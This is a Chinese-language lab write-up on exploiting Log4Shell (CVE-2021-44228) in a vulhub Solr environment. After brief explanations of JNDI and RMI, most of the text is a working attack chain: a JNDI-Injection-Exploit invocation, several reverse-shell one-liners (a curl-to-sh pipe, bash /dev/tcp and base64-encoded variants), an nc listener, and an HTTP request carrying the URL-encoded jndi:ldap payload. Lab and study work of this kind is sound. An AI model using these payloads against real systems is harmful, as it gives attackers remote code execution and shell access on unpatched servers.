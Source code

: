 # Apache Log4j 2

**Apache Log4j 2** 是 Apache 软件基金会开发和维护的一个高性能、灵活和可靠的 Java 日志框架，是 Log4j 的下一代产品。它广泛用于企业级 Java 应用的日志记录与分析。

JNDI（Java Naming and Directory Interface，Java 命名和目录接口）是 Java 平台提供的一套 API，用于统一访问不同类型的命名和目录服务。

RMI 即 Remote Method Invocation（远程方法调用），是 Java 提供的一种远程通信机制，允许一个 Java 程序调用另一个 Java 虚拟机（JVM）中对象的方法，就像调用本地对象一样。

## Log4shell(CVE-2021-44228)

在其 2.0 到 2.14.1 版本中存在一处 JNDI 注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于 `${jndi:ldap://evil.com/example}`的 lookup 用于进行 JNDI 注入，执行任意代码。

### 漏洞环境

```bash
cd vulhub/log4j/CVE-2021-44228
docker compose up
```

### 漏洞利用

```bash
nuclei -id apache-solr-log4j-rce -u http://192.168.200.1:8983
```

使用 JNDI 注入利用工具[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)，生成 JNDI 链接并启动后端相关服务。由于 `-C` 命令会被作为参数传入`Runtime.getRuntime().exec()`，传入的命令需要使用[Runtime.exec Payload Generater](https://ares-x.com/tools/runtime-exec)进行编码。

```
curl -k https://reverse-shell.sh/192.168.200.134:1337|sh
bash -c {echo,Y3VybCAtayBodHRwczovL3JldmVyc2Utc2hlbGwuc2gvNDcuOTYuMzguODc6MTMzN3xzaA==}|{base64,-d}|{bash,-i}

bash -i >& /dev/tcp/192.168.200.134/4444 0>&1

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwMC4xMzQvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}
```

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwMC4xMzQvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}"
```

![jndi-injection-exploit-usage](../images/jndi-injection-exploit-usage.png)

在 VPS 上 使用 `nc -lvp 4444` 监听

```http
GET /solr/admin/cores?action=%24%7bjndi%3aldap%3a%2f%2f192.168.200.134%3a1389%2f5sl4so%7d HTTP/1.1
Host: 192.168.200.1:8983
```

![nc-reverseshell](../images/nc-reverseshell.png)

## 参考

<https://tttang.com/archive/1378/>
<https://www.anquanke.com/post/id/263325>
